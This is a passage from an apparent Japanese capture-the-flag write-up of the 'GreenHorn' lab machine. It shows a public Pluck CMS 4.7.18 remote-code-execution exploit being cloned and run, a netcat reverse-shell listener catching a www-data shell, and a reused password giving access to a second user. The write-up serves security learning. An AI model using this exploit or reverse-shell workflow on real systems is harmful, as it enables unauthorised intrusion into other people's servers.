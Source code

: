 ```bash
git clone https://github.com/b0ySie7e/Pluck_Cms_4.7.18_RCE_Exploit.git
cd Pluck_Cms_4.7.18_RCE_Exploit.git
```

```bash
-> % python3 exploit_pluckv4.7.18_RCE.py --password iloveyou1 --ip 10.10.16.5 --port 4444 --host http://greenhorn.htb
[+] Creating payload
[+] Creating .php file
[+] Creating ZIP file
Login successful
[+] ZIP file uploaded successfully
```

```bash
-> % rlwrap -cAr nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.25] 44494
bash: cannot set terminal process group (1039): Inappropriate ioctl for device
bash: no job control in this shell
www-data@greenhorn:~/html/pluck/data/modules/mirabbas$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@greenhorn:~/html/pluck/data/modules/mirabbas$ 
```

www-dataとしてシェルを取得することができました。

ホームディレクトリを見てみると、ユーザー `git`, `juniort` が見つかりました。

![image-20241207164150279](images/image-20241207164150279.png)

linpeasで列挙を行いましたが、特に興味深いものは見つかりませんでした。

見つけたユーザーjuniorでパスワード、`iloveyou1` を試してみたところ、juniorとしてログインすることができました。

![image-20241207165127737](images/image-20241207165127737.png)

このパスワードでsshでログインしてみましたがどうやらパスワード認証は使えないみたいなので秘密鍵を生成してログインします。

![image-20241207165220047](images/image-20241207165220047.png)
